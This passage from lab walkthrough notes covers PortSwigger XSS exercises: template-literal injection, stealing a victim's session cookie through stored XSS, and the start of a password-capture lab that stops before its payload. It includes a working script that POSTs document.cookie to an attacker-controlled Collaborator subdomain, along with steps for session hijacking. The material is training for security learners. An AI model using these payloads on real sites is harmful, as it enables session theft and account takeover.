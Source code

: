 then you can use the following payload to execute JS without terminating the template literal:
`${alert(document.domain)}`

#### Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
1. Submit a random alphanumeric string in the search box, then use Burp Suite to intercept the search request and send it to Burp Repeater.
2. Observe that the random string has been reflected inside a JavaScript template string.
3. Replace your input with the following payload to execute JavaScript inside the template string: 
   `${alert(1)}`
4. Verify the technique worked by right clicking, selecting "Copy URL", and pasting the URL in the browser. When you load the page it should trigger an alert.

### Exploiting XSS to steal cookies
This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

1. Using [Burp Suite Professional](https://portswigger.net/burp/pro), go to the [Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) tab.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
3. Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
    
    `<script> fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>`
    
    This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server.
    
4. Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
5. Take a note of the value of the victim's cookie in the POST body.
6. Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. To prove that you have successfully hijacked the admin user's session, you can use the same cookie in a request to `/my-account` to load the admin user's account page.

### Exploiting XSS to capture passwords
These days, many users have:
password managers that auto-fill their passwords.
=>
You can take advantage of this by:
- creating a password input
- reading out the auto-filled password
- sending it to your own domain
=>
1. Using [Burp Suite Professional](https://portswigger.net/burp/pro), go to the [Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) tab.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
3. Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
   